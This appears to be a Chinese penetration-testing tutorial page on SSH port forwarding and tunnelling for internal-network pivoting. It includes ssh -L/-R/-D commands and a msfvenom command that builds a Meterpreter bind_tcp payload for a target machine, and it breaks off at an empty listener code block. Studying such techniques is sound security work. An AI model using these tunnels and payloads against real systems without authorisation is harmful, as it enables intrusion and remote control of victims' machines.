 ```bash
ssh -qTfnN -L port:host:host：port -l user remote_ip   #正向隧道，监听本地port
ssh -qTfnN -R port:host:host：port -l user remote_ip   #反向隧道，用于内网穿透防火墙限制之类
SSH -qTfnN -D port remotehost   #直接进行socks代理
```

这是l3m0n师傅的[从零开始内网渗透学习](https://github.com/l3m0n/pentest_study)所写：

```bash
本地访问127.0.0.1:port1就是host:port2(用的更多)
ssh -CfNg -L port1:127.0.0.1:port2 user@host    #本地转发

访问host:port2就是访问127.0.0.1:port1
ssh -CfNg -R port2:127.0.0.1:port1 user@host    #远程转发

可以将dmz_host的hostport端口通过remote_ip转发到本地的port端口
ssh -qTfnN -L port:dmz_host:host：port -l user remote_ip   #正向隧道，监听本地port

可以将dmz_host的hostport端口转发到remote_ip的port端口
ssh -qTfnN -R port:dmz_host:host：port -l user remote_ip   #反向隧道，用于内网穿透防火墙限制之类
```

> -C 进行数据压缩
> -q 安静模式
> -T 不占用 shell 了
> -f 后台运行，并推荐加上 -n 参数
> -N 不执行远程命令，端口转发就用它
> -g 允许所有远程主机连接到转发的端口


## MSF

### ssh本地转发

本节方案是 **攻击机器(kali)进行本地端口转发，然后进行正向监听连接转发后的本地端口**

```bash
思路： 
kali进行本地端口转发---->VPS（ssh -L）
----------------------------
            |
            |bind_tcp正向连接
            ↓
        目标机器
```

先在kali机器上使用msfvenom生成正向连接的meterpreter：

```bash
msfvenom -p windows/meterpreter/bind_tcp LHOST=10.10.10.129 LPORT=5454 -f exe -o S.exe
```

> LHOST的10.10.10.129是目标机器的IP

使用kali上的msfconsole监听：

```bash

```
